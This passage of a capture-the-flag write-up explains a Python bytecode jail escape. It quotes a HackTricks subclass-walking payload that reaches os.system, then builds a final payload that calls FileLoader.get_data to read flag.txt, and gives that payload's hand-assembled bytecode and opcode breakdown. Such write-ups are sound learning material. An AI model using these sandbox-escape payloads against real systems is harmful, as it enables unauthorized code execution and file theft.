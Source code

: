 ```
1900 -> BINARY_SUBSCR
5300 -> RETURN_VALUE
```

We had **2 consts, 1 name, and 4 opcodes** left to get what we wanted, but we had access to [an extensive list of classes](/static/lactf-pycjail/classes.txt) that opened up functionality a lot. 

The "stereotypical" payload [from HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#no-builtins) is to use `''.__class__.__bases__.__subclasses__()[144]()._module.__builtins__['__import__']('os').system('ls')` to run system commands (note that this was slightly modified from the Python2 version, and the exact index of `<class 'warnings.catch_warnings'>` may vary depending on your installation & version). The problem with this payload was it required another 3 names (`_module`, `__builtins__`, `system`) and 3 consts (`'__import__'`, `'os'`, `'ls'`), which we didn't have. We considered making our first const of length 144 the same as our last const (padding our bash payload with extra `;`s until we reached our desired length), but we still had 2 extra names.

Our second thought was `"".__class__.__base__.__subclasses__()[144]()._module.__builtins__["eval"]("insert code here")`, but that required 2 names and 2 consts (still 1 too many names).

After perusing the list of available classes one by one, I started looking into the class at index 118, which was `<class '_frozen_importlib_external.FileLoader'>`. Looking at this class's attributes, I saw the function `get_data()`, which required two arguments for the path of a file. Excited, I wrote up and tested the code `("a"*118).__class__.__base__.__subclasses__()[118].get_data('flag.txt','flag.txt')`, and my local flag was printed! This only required 1 extra name and const (we even had one const leftover), and used exactly 4 more opcodes. 


### Final Payload
The final payload was:

```
''.__class__.__base__.__subclasses__()[118].get_data('flag.txt','flag.txt')

consts: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,flag.txt
names: __class__,__base__,__subclasses__,get_data
code: 64006d006d016d02830064001e000200010019006d036401640183025300

6400 -> LOAD_CONST, consts[0] -> 'a'
6d00 -> IMPORT_FROM, names[0] -> __class__
6d01 -> IMPORT_FROM, names[1] -> __base__
6d02 -> IMPORT_FROM, names[2] -> __subclasses__
8300 -> CALL_FUNCTION
6400 -> LOAD_CONST, consts[0] -> 'a'
1e00 -> GET_LEN -> 1
0200 -> ROT_TWO
0100 -> POP_TOP
1900 -> BINARY_SUBSCR
6d03 -> IMPORT_FROM, names[3] -> get_data
6401 -> LOAD_CONST, consts[1] -> 'flag.txt'
6401 -> LOAD_CONST, consts[1] -> 'flag.txt'
8302 -> CALL_FUNCTION
5300 -> RETURN_VALUE
```

<img src="/static/lactf-pycjail/pycjail.png" width="900px">

**Flag:** `flag{maybe_i_should_only_allow_nops_next_time}`